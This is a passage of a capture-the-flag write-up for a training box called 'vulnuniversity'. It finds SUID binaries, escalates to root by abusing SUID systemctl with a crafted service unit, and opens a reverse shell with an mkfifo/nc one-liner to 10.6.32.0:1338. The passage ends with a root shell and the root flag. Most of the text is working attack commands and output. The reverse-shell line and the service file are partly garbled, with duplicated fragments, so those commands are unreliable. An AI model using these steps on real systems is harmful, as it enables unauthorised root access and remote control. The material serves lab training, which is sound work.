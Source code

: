 ```shell
   133166    140 -rwsr-xr-x   1 root     root         142032 Jan 28  2017 /bin/ntfs-3g
   131133     40 -rwsr-xr-x   1 root     root          40152 May 16  2018 /bin/mount
   131148     44 -rwsr-xr-x   1 root     root          44680 May  7  2014 /bin/ping6
   131182     28 -rwsr-xr-x   1 root     root          27608 May 16  2018 /bin/umount
   131166    648 -rwsr-xr-x   1 root     root         659856 Feb 13  2019 /bin/systemctl
   131147     44 -rwsr-xr-x   1 root     root          44168 May  7  2014 /bin/ping
   133163     32 -rwsr-xr-x   1 root     root          30800 Jul 12  2016 /bin/fusermount
   405750     36 -rwsr-xr-x   1 root     root          35600 Mar  6  2017 /sbin/mount.cifs

```
From this output, we can see that a lot of missconfiguration. So we can escalate to root using a lot of methods

- 1st: [/bin/systemctl](https://gtfobins.github.io/gtfobins/systemctl/#suid)
```shell
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
$ systemctl link $TF
$ systemctl enable --now $TF
$ cat /tmp/output
uid=0(root) gid=0(root) groups=0(root)

```
Get a shell using root user

```shell
www-data@vulnuniversity:/tmp$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.6.32.0 1338 >/tmp/f" > shell.sh

```
Now execute using systemctl
```shell
TF=$(mktemp).service
www-data@vulnuniversity:/tmp$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c  "bash /tmp/shell.sh"
  ExecStart=/bin/sh -c  "bash /tmp/shell.sh"
ExecStart=/bin/sh -c  "bash /tmp/shell.sh"
[Install]
WantedBy=multi-user.target' > $TF
www-data@vulnuniversity:/tmp$ /bin/systemctl link $TF                              /bin/systemctl link $TF
/bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.huc6dywRkn.service to /tmp/tmp.huc6dywRkn.service.
www-data@vulnuniversity:/tmp$ /bin/systemctl enable --now $TF                        /bin/systemctl enable --now $TF
/bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.huc6dywRkn.service to /tmp/tmp.huc6dywRkn.service.

└─$ sudo rlwrap nc -lnvp 1338
[sudo] password for blo: 
listening on [any] 1338 ...
connect to [10.6.32.0] from (UNKNOWN) [10.10.139.223] 33980
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
# cat /root/root.txt
a58ff8579f0a9270368d33a9966c7fd5
# 
```